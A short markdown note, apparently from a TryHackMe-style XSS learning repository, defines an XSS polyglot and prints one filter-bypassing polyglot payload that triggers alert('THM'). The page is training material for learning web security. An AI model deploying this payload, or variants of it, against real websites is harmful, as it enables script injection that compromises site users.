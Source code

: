 # Polyglots

- An XSS polyglot is a string of text which can escape attributes, tags and ***bypass filters all in one***. 

- You could have used the [below polyglot]() on all [6 levels](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/11%20-%20Perfecting%20Your%20Payload) you've completed, and it would have executed the code successfully.

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
